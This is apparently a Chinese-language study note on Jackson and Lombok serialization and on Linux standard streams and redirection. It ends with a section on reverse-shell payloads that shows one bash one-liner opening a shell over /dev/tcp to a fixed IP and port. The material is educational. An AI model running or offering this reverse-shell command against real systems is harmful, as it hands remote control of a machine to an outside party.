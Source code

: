   * 实践3-Jackson with Lombok

    * Bean

      ![image-20210823181140786](https://monkeydatabase.github.io/img/image-20210823181140786.png)

    * 实践结果

      ![image-20210823181344299](https://monkeydatabase.github.io/img/image-20210823181344299.png)

    * 实践结论

      * Lombok的`@Data`注解的作用是为Bean生成Getter、Setter、ToString、Equals、HashCode、Constructor方法，Jackson之后会通过Getter、Setter进行序列化和反序列化操作
      * 因为此时并未使用`@JsonCreator`注解，因此无法使用构造器注入。此时Jackson仅能通过无参构造器创建对象，然后通过Setter将值赋予其内部的各个属性。
      * `@JacksonInject`标注在属性上而不是构造器方法上，因此在反序列化该值时，它会从`InjectableValues`获取相应的属性，而不会去寻找空字符串的key，因此在本次实践中的第二次序列化会存在报错。

### 2、Linux的标准输入、标准输出、标准错误分别是什么？

* Linux中无论是文档，还是各种硬件设备，只要是资源，就都看作文件。

* stdin、stdout、stderr通过链接指向了/proc/self/fd文件夹下的三个文件

  ![image-20210819160523475](https://monkeydatabase.github.io/img/image-20210819160523475.png)

* /proc目录是一个伪文件系统，它只存在于内存之中，不占用磁盘任何空间，它以文件系统的方式为访问系统内核数据等操作提供接口

  * 当读取/proc目录时是根据用户需要从系统内核读取所需信息生成的
  * 当修改/proc目录时将会影响到内核中的参数
  * 由于它是根据用户运行环境和需要从内核获取的信息，因此不同的进程获取的文件内容是不同的

* 所以，stdin、stdout、stderr通过指向/proc/self/fd目录下的内容实现了不同的进程可以有不同的标准输入、标准输出、标准错误

  ![image-20210819161808152](https://monkeydatabase.github.io/img/image-20210819161808152.png)

* 可以看出标准输入、标准输出、标准错误是三个文件标识符，分别指向了三个文件，这些文件可以是设备文件、Socket文件、普通文本文件

* 所谓的输入重定向就是改变标准输入文件标识符所指向的文件，`<`操作符左侧不写内容时默认是将标准输入重定向到该操作符右侧的文件中

  ![image-20210819162946467](https://monkeydatabase.github.io/img/image-20210819162946467.png)

* 所谓的输出重定向就是改变标准输出文件标识符所指向的文件，`>`操作符左侧不写内容时默认是将标准输出重定向到该操作符右边的文件中

  ![image-20210819162830789](https://monkeydatabase.github.io/img/image-20210819162830789.png)

* 既然标准输入、标准输出、标准错误都是引用，那么就能通过`&`操作符进行解引用，cat命令用于输出文件内容，通过输入重定向将其指向标准输入文件标识符解引用后的文件，此时我们在终端中输入什么内容点击回车后终端就会回显什么内容，因为此时cat所指向的文件就是/dev/pts/0文件

  ![image-20210819163352916](https://monkeydatabase.github.io/img/image-20210819163352916.png)

### 3、通过Terminal反弹shell有什么Payload，生效原理是什么？

```shell
bash -i >& /dev/tcp/192.168.59.131/5555 0>&1
```
